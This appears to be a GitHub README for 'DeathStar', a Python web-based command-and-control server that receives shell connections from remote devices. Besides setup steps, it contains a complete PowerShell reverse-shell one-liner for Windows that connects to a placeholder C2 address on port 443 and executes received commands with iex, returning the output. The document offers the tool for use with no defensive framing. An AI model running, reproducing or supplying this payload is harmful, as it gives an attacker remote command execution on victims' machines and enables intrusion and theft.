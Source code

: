 # DeathStar
Python webserver that receives shell connections from remote devices. 

Remote devices can be managed from the DeathStar webpage.

# Web page
<img width="1162" alt="Screenshot 2024-12-21 at 1 03 20 AM" src="https://github.com/user-attachments/assets/9145dc13-14d0-440c-9d00-9a60f547bbc5" />

# Download DeathStar

```git clone github.com/bwithe/deathstar```

# Web C2 server 
1. Start the server
    - `python3 deathstar.py`

2. Open link in web browser
    - `firefox 127.0.0.1:8000`

3. Modify `<DEATHSTAR_IP>` in `client.py`

4. Have CLIENT connect to C2
    - Linux / MacOS
      - `python3 client.py`
    - Windows
        - `powershell -nop -c "$c=New-Object System.Net.Sockets.TCPClient('<DEATHSTAR_IP>',443);$s=$c.GetStream();$s.Write([byte[]](@(0x0A)),0,1);while($true){$b=[byte[]]::new(1024);$r=$s.Read($b,0,1024);$t=[text.encoding]::ASCII.GetString($b,0,$r).Trim();if($t -eq 'die'){exit};if($t -eq 'hostname'){$o=$env:COMPUTERNAME}elseif($t -eq 'whoami'){$o=$env:USERNAME}else{$o=iex $t 2>&1|Out-String};$o=$o.Trim()+[char]10;$d=[text.encoding]::ASCII.GetBytes($o);$s.Write($d,0,$d.Length)}"`
